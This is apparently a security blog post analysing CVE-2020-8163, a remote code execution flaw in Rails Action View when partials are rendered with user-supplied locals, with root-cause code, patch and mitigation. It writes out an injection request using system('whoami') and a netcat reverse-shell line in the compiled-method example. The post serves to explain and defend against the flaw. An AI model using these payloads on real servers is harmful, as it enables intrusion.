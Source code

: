 ```yaml
---
layout: post
title:  "CVE-2020-8163"
summary: "Potential Remote Code Execution in Action View"
date: 2020-08-22 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

# Potential Remote Code Execution in Action View

If you **pass local variables** into partials on affected versions of Rails, it is possible for attackers to perform remote code execution. From there, _really_ bad things happen.
{: .critical }

<script id="asciicast-VVnc3ItIsDe7PgbRxtASUByTH" src="https://asciinema.org/a/VVnc3ItIsDe7PgbRxtASUByTH.js" async></script>
<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        < 5.0.1
      </td>
    </tr>
  </tbody>
</table>

## Vulnerability[^fn-nist]

The `locals` argument to rendering a partial, does not sanitize user input. A vulnerable call to a partial template will look something like this:

```ruby
<%= render partial: 'flag', locals: params %>
```

## Weakness

This vulnerability lets an attacker [inject code](http://cwe.mitre.org/data/definitions/94.html) which can lead to remote code execution.

## Attack

The attacking request will look something like this[^fn-demo]:

{% highlight bash %}
{% raw %}
curl http://target/users/index?system(%27whoami%27)%0A%23"
{% endraw %}
{% endhighlight %}

Since the query parameter contains arbitrary code and the targeted controller renders a partial view with local variables, this same code can potentially be executed on the target platform as a system call. Other variants to this attack might include the use of \``backticks`\` or `%x` / `Kernel#` methods.

## Analysis

The `ActionView::Template` class has a protected method called `compile` which sets the encoding of the compiled template for the view. Within this method, the dynamic views created by partials are eval'd into the encoded view[^fn-analysis]. It does this by [building a string](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L287-L293) which is a dynamic method that uses `module_eval` to [evaluates the string in the context of mod](https://apidock.com/ruby/Module/module_eval). This is how the attacker is able to run abitrary code.

The dynamic string that is built will look something like this at run time:

```ruby
def _app_views_users__unsafe_html_erb___2814227942932613306_70032701656460(local_assigns, output_buffer)
  _old_virtual_path, @virtual_path = @virtual_path, "users/_unsafe"
  _old_output_buffer = @output_buffer
  action = action = local_assigns[:action]
  controller = controller = local_assigns[:controller]
  system('nc 192.168.1.104 4443 -e /bin/bash')
  #
  ...
ensure
  @virtual_path, @output_buffer = _old_virtual_path, _old_output_buffer
end
```

You can see in this example, the system method where the attacker then uses netcat to perform a reverse shell from within your server environment. This would of course depend on you having netcat installed, but given the attacker could chain these system calls, they could perform the necessary steps through remote code execution.

So how did this system call get into the dynamically eval'd method above in the first place?

The first thing the attacker would need, is for you to be rendering partials with the locals argument:

```erb
<%= render partial: 'flag', locals: params %>
```

When the `compile` method builds the aforementioned string, it makes another call to the `locals_code` [method in the same class](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L327-L330) which looks like this:


```ruby
def locals_code #:nodoc:
  # Double assign to suppress the dreaded 'assigned but unused variable' warning
  @locals.each_with_object('') { |key, code| code << "#{key} = #{key} = local_assigns[:#{key}];" }
end
```

You can see here, that the `@locals` array iterates over each item and concatenates it to the string object. If the attacker passed in a parameter such as `system(%27whoami%27)%0A%23` then the resulting string will look something like:

```ruby
system(\'nwhoami\')
# = system(\'nwhoami\')
# = local_assigns[:system(\'nwhoami\')
```

By properly encoding the parameter, and appending a new line `%0A` followed by a hash `%23` the attacker is able to create a syntactically correct, dynamic method which is when evaluated, executes their system call.

A more simple demonstration with Ruby looks like this:

```ruby
source = 'def dynamic_method
  system(\'whoami\')
  #
end'

class Thing
end

Thing.module_eval(source)

irb(main):052:0> Thing.new.dynamic_method
root
```

## Fix

The best fix for this, is to upgrade Rails to a patched version.

The patch itself, sanitizes items in the `@locals` array of the `locals_code` method with something like this:

```ruby
+        locals = @locals.to_set - Module::DELEGATION_RESERVED_METHOD_NAMES
+        locals = locals.grep(/\A(?![A-Z0-9])(?:[[:alnum:]_]|[^\0-\177])+\z/)
```

The vulnerability can also be mitigated by making sure you do not render partials with user provided paramaters with something like this instead:

```erb
<%= render partial: 'flag', locals: { user: @user } %>
```

# Research

You can re-create this in a [CVE laboratory environment](https://github.com/correkthorse/rails-cve-testing) using Docker.

    CVE=CVE-2020-8163 RAILS_VERSION=4.2.11.1 make lab

# References

[^fn-nist]: [First published at NVD on 7 February 2020](https://nvd.nist.gov/vuln/detail/CVE-2020-8163)
[^fn-demo]: [CVE-2020-8163 - Remote code execution of user-provided local names in Rails](https://github.com/sh286/CVE-2020-8163)
[^fn-analysis]: [CVE-2020-8163: Partial Remote Code Execution](https://medium.com/@qazbnm456/cve-2020-8163-partial-remote-code-execution-c6f46bcdef2)

